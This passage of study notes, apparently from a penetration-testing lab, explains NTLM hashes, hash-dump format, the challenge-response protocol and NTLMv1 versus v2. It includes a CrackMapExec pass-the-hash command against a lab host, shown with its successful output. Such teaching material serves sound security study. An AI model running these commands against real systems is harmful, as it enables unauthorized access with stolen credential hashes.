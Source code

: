 - Vulnerable to:
    
    - **Brute force attacks**
        
    - **Dictionary attacks**
        
    - **Pass-the-hash attacks**
        

🧪 **Example NT hash**:  
`b4b9b02e6f09a9bd760f388b67351e2b`

* * *

## 💬 NTLM Authentication Protocol (Challenge-Response)

1.  Client sends `NEGOTIATE_MESSAGE` to server.
    
2.  Server replies with `CHALLENGE_MESSAGE`.
    
3.  Client responds with `AUTHENTICATE_MESSAGE` using the hashed password.
    

NTLM doesn’t require knowing the plaintext password — **just the hash** is enough (pass-the-hash).

* * *

## 🔓 Real-World Hash Example (NTLM Hash Dump)

`Patrick:500:aad3c435b514a4eeaad3b935b51304fe:e46b9e548fa0d122de7f59fb6d48eaa2:::`

**Breakdown:**

- `Patrick` – Username
    
- `500` – RID (Relative Identifier); 500 = Administrator
    
- `aad3c435b514a4eeaad3b935b51304fe` – LM hash (null if LM disabled)
    
- `e46b9e548fa0d122de7f59fb6d48eaa2` – NT hash (actual password hash)
    

* * *

## 🎯 Pass-the-Hash Attack Example (With CrackMapExec)

`crackmapexec smb 10.129.41.19 -u Patrick -H e46b9e548fa0d122de7f59fb6d48eaa2`

**Result:**

`[+] HEROTRANSPORT.LOCAL\Patrick:e46b9e548fa0d122de7f59fb6d48eaa2 (Pwn3d!)`

✅ Successful authentication without knowing Patrick’s real password.

* * *

## 🧬 NTLMv1 vs NTLMv2 – Protocol Evolution

| Feature | **NTLMv1** | **NTLMv2** |
| --- | --- | --- |
| Hash Used | NT hash | NT hash + HMAC-MD5 |
| Challenge Type | Random 8-byte nonce | Includes timestamp + client data |
| Strength | Weak – outdated | Stronger but still lacks mutual auth |
| Default Since | Older Windows versions | Windows NT 4 SP4 and later |
| Still Used? | Rare (deprecated) | Common fallback when Kerberos fails |
